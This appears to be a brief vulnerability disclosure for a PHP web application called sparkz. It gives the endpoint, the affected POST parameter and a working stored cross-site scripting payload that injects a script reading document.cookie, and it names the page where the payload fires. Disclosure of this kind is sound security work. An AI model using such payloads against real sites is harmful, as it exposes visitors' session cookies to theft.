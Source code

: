 BUG_Author: getshell

Vulnerability url: /sparkz/ajax.php

POST parameter complaint_type exists stored cross-site scripting

Payload:complainant_name=1&complaint_type=<script>alert(document.cookie)</script>&complaint=2&createComplaint=

![image](https://github.com/admin-passwd/bug_report/blob/main/sql1.png)

Payload will trigger when a user visits on http://localhost/sparkz/index.php?complain

![image](https://github.com/admin-passwd/bug_report/blob/main/sql2.png)
